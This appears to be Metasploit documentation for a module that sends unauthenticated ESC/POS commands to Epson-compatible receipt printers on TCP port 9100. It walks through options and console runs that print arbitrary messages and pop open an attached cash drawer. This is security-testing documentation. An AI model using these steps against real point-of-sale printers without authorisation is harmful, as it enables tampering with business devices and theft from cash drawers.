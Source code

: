 ## Vulnerable Application


- **Printer Model:** Any Epson-compatible printer exposing the ESC/POS command set
on TCP port 9100.

- **Protocol:** ESC/POS over TCP.

- **CVE:** Submitted for Epson-compatible thermal printers; awaiting assignment.



## Verification Steps



1. **Load the module:**
    use auxiliary/scanner/printer/escpos_tcp_command_injector

2. **Set required options:**
    set RHOST <printer_ip>

3. **Choose an action:**
    You can either print a message, trigger the drawer, or do both.
    - To print a message, set `PRINT_MESSAGE` to `true` and a `MESSAGE` string.
    - To trigger the drawer, set `TRIGGER_DRAWER` to `true`.
    - To do both, set both flags to `true`.

4. **Execute the module:**
    run

---


## Options

### MESSAGE

This option specifies the text to be sent to the printer.

* **Description:** The string of text you want the printer to output. It is only required when `PRINT_MESSAGE` is set to `true`.
* **Default:** "PWNED"
* **Example:** `set MESSAGE "Printing this now"`

### PRINT_MESSAGE

This boolean option controls whether a message is printed to the printer.

* **Description:** When set to `true`, the module will send the `MESSAGE` string to the printer.
* **Default:** `false`
* **Example:** `set PRINT_MESSAGE true`

### TRIGGER_DRAWER

This boolean option controls whether the module sends a command to open the cash drawer.

* **Description:** When set to `true`, the module will send the appropriate ESC/POS command to trigger the cash drawer.
* **Default:** `false`
* **Example:** `set TRIGGER_DRAWER true`



## Scenarios

### Example 1: Printing a Simple Message

This example shows how to use the module to send a simple text message to a network-connected ESC/POS printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200

### Example 2: Triggering the Cash Drawer

This scenario demonstrates the use of the `TRIGGER_DRAWER` option to send the specific
ESC/POS command to open a cash drawer connected to the printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200

### Example 3: Doing Both

This example shows how to use both options to print a message and trigger the drawer in a single run.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set MESSAGE "Both commands sent!"
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200
[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200


This module has been tested against a physical Epson-compatible receipt printer and
verified to print custom messages and trigger the cash drawer.
For additional device compatibility, refer to the ESC/POS protocol documentation.
